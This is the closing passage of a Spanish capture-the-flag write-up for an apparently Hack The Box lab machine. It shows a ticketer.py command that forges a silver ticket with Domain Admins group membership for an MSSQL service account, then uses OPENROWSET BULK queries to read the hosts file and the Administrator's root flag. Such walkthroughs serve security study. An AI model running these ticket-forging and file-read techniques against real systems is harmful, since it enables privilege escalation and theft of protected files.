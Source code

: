 ```js
ticketer.py -nthash ef699375c3285c54128a3ee1ddb1a0cc -domain-sid SID-1-5-21-4088429403-1159899800-2753317549 -domain SIGNED.HTB -spn MSSQLSVC/DC01.SIGNED.HTB
:1433 -groups 512,1105 -user-id 1103 mssqlsvc
```

Y probamos accediendo de la misma manera, intentando leer un archivo:

```js
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
BulkColumn
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
b"# Copyright (c) 1993-2009 Microsoft Corp.\r\n#\r\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\r\n#\r\n# This file contains the mappings of IP addresses to host names. Each\r\n# entry should be kept on an individual line. The IP address should\r\n# be placed in the first column followed by the corresponding host name.\r\n# The IP address and the host name should be separated by at least one\r\n# space.\r\n#\r\n# Additionally, comments (such as these) may be inserted on individual\r\n# lines or following the machine name denoted by a '#' symbol.\r\n#\r\n# For example:\r\n#\r\n#      102.54.94.97     rhino.acme.com          # source server\r\n#       38.25.63.10     x.acme.com              # x client host\r\n\r\n# localhost name resolution is handled within DNS itself.\r\n#\t127.0.0.1       localhost\r\n#\t::1             localhost\r\n"   
```

No parecerá a primera instancia, pero, esto indica que tenemos lectura arbitraría de archivos, podemos probarlo si leemos algo del administrador, como por ejemplo... La flag:


```js
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:/Users/Administrator/Desktop/root.txt', SINGLE_CLOB) AS Contents
BulkColumn
---------------------------------------
b'b80e121b8840af1a28d35a05c587def1\r\n'
```

###### Agradecimiento

Si lees esto, gracias por llegar hasta aquí!, si existen dudas, comentarios y correcciones (que son más que bienvenidas) contáctame con confianza, que siempre he dicho que la ciberseguridad es esfuerzo conjunto. 

En caso que no los vea, buenos días, buenas tardes y buenas noches. Happy Hacking!.

